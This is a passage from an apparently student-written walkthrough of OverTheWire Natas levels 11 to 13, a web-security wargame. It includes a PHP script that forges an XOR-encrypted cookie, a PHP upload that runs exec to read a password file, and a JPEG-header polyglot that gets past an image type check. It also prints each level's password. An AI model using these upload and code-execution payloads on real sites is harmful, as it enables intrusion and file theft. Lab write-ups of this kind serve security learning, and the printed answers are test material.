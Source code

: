 -The result is qw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jqw8Jq, which implies that the $key should be qw8J (repeated during the xor_encrypt function).

-Since we’ve got the $key, we can build our own data setting showpassword to yes:

```
<?php
$key = 'qw8J';
$newString = json_encode(array("showpassword"=>"yes", "bgcolor"=>"#ffffff"));
$cookieData = '';
for ($i = 0; $i < strlen($newString); $i++) {
    $cookieData .= $key[$i % strlen($key)] ^ $newString[$i];
}
echo base64_encode($cookieData);
```

-The result is ClVLIh4ASCsCBE8lAxMacFMOXTlTWxooFhRXJh4FGnBTVF4sFxFeLFMK. Alter the data in cookie with this string and reload the page to get the password.

-Password: EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3


## Natas 12

- Bypass file extension check to upload a PHP file.
- Execute code to retrieve the password.

**Solution:**

-View the source page to identify the file extension extraction method.
-Set the `filename` parameter to a string ending with `.php` when uploading a file.
-Create a PHP file with the following code:

   ```php
   echo exec("cat /etc/natas_webpass/natas13");
```
-After we upload the php file, we can open that page and get the password.

-Password: jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY

## Natas 13

-View the source page and we can find that this challenge is an upgraded version of Natas 12. In this challenge, the EXIF image type is checked, so we need to add a header to our php file and make it look like a JPEG file.

-We can create a php file like this:
```
\0xFF\0xD8\0xFF\0xE0<?php echo exec('cat /etc/natas_webpass/natas14');?>
   ```
## Note: The JPEG header above contains four characters in HEX format. ## 

-Upload this php using the similar way in Natas 12 and get the password.

-Password: Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1
